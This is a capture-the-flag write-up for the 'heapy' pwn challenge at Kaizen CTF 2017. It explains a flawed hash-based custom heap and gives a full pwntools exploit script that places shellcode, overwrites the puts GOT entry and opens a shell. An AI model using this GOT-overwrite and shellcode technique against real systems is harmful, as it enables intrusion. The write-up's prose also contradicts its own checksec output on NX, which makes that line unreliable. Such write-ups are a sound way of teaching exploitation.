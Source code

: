 # Writeup for heapy (pwn, 800 pts, 4 solves), Kaizen CTF at Blackhat 2017

Description:

> Other CTF competitions have custom heap challenges with trivial overflows. Here at Kaizen, we ensure that our custom heaps contain 0% overflowable buffers.
> `nc challenges.kaizen-ctf.com 10055`

## TL;DR

- hash-based custom heap
- faulty implementation -> allocate chunks at attacker-controlled location
- allocate chunk over GOT
- overwrite GOT

## Analysing the Target

We perform some quick checks, before reversing the binary:

```
> file heapy
heapy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1421182e6b43c3ecab7eb8745fc7fad574921f5c, not stripped
```
32-bit binary, dynamically linked, not stripped

```
> pwn checksec heapy
[*] 'heapy'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```
All exploit mitigation techniques are turned off: no RELRO, no stack canary, NX and PIE are disabled.

After these checks, we take a look at its functionality; we can:
- create pastes, specifying their size
- write to a paste by id (no buffer overflow here)
- delete a paste by id
- read a paste by id
- exit 

After statically analysing the binary, we see that a custom hash-based heap implementation `halloc` is used.
`halloc` computes a weak hash from the requested size (`(0x9E3779B1 * size) % 0xFFFFFFFF`), interprets this hash as an address, and `mmap`s a chunk there.

## The Exploit

We bruteforce the hash for addresses near the global offset table, so that we can allocate a paste over the GOT and overwrite some GOT entries with the address to our shellcode.

Since NX is disabled, we allocate a chunk and write our shellcode to it. Using the hash formula, we can calculate the address the shellcode will end up at.

Putting everything together, we end up with the following exploit script:
```python
from pwn import *
import ctypes

LOCAL_BINARY = './heapy'

context.binary = LOCAL_BINARY

SC_SPEC_SIZE = 1000

proc = None
def connect():
    global proc
    if args['REMOTE']:
        proc = remote('challenges.kaizen-ctf.com', 10055)
    else:
        proc = process(LOCAL_BINARY)

def hash(n):
    return ctypes.c_uint32(0x9E3779B1 * n).value, ctypes.c_uint32(n).value

if __name__ == '__main__':

    """
    # bruteforce hash to find an address near the GOT
    for i in xrange(-(2**31), 2**31):
        addr, size = hash(i)
        if i % 1000000 == 0:
            print(size)
        if 0x8049000 <= addr <= 0x804a000:
            print("%d - 0x%08x" % (size, addr))
    # found: 2155026857 - 0x08049ed9
    """
    
    connect()

    sc = '\x90'*4 + asm(shellcraft.sh()) + '\x90'*4

    addr_sc, size_sc = hash(SC_SPEC_SIZE)
    if len(sc) > size_sc: log.error("sc too large")
    log.info("addr_sc: 0x%x", addr_sc)

    # create legit chunk at addr_sc and write shellcode
    proc.sendlineafter('Exit', '1')
    proc.sendlineafter('big is', str(size_sc))
    proc.sendlineafter('Exit', '2')
    proc.sendlineafter('paste would', '0')
    proc.sendlineafter('your input', sc)

    # create chunk in front of GOT (0x08049ed9 - 3 bytes read, 4 bytes printf, 4 bytes puts)
    proc.sendlineafter('Exit', '1')
    proc.sendlineafter('big is', '2155026857')
    # overwrite puts with addr of sc
    proc.sendlineafter('Exit', '2')
    proc.sendlineafter('paste would', '1')
    proc.sendlineafter('your input', '\x00'*7 + p32(addr_sc))

    proc.interactive()
```
Flag: `KAIZEN{was_1t_4_he4p_bug}`
